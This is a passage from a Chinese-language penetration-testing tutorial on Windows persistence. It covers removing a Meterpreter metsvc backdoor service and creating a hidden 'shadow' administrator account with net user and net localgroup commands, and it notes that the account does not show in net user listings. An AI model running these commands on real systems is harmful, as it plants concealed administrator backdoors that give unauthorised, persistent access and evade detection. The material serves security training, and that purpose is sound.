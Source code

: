 默认绑定在31337端口

![](<../../.gitbook/assets/image (321).png>)

### 3、删除服务

如果想删除服务，可以执行&#x20;

```
meterpreter > run metsvc -r
```

## 9、影子用户

### 1、创建隐藏用户

影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的 在用户名后面加一个$可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组&#x20;

```
net user test$ test /add 
net localgroup administrators test$ /add 
```

可以看到net user是看不到我们创建的用户

![](<../../.gitbook/assets/image (342).png>)

但是计算机管理-用户和组中可以看到

![](<../../.gitbook/assets/image (358).png>)
